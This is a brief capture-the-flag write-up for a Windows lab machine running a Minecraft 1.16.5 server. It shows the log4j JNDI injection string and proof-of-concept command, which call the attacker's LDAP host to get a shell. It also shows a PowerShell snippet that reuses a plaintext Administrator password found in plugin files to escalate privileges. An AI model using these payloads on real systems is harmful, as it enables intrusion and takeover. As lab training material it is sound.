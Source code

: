 ## Crafty - Windows Machine


- [+]	Target Ip
   >>	10.10.11.249
   

## Recon 

PORT      STATE SERVICE
80/tcp    open  http
PORT      STATE SERVICE   VERSION
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 2/100)


- [+]	Minecraft 1.16.5 vulnerable to log4j 

   >>	couple of github repos to setup ldap servers and to exploit log4j needs to inject the basic $jdni:ldap//ip/a 

   >>	problem was to find a minecraft server cuz there waas no way for me to install minecraft in my vm xD

   >>	found a repo on git 
        
        ```poc.py
            python3 poc.py --userip 10.10.16.77 --webport 8000 --lport 9001 ## add ur tun0 ip instead of localhost  
            [+] Send me: ${jndi:ldap://10.10.16.77:1389/a}
            ```
            
        ```mcli 
            ./mcli whitenight '' 10.10.11.249
            /send ${jndi:ldap://10.10.16.77:1389/a}
            ```
## Privesc

- [+]	Plugin files shows a password for rcon , which didnt work for me earlier 
        ```powershell
        $user = 'Administrator'
        $pass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force
        $creds = New-Object System.Management.Automation.PSCredential($user,$pass)
        Start-Process -FilePath "C:\Users\svc_minecraft\AppData\Local\Temp\priv.exe" -Credential $creds
        ```
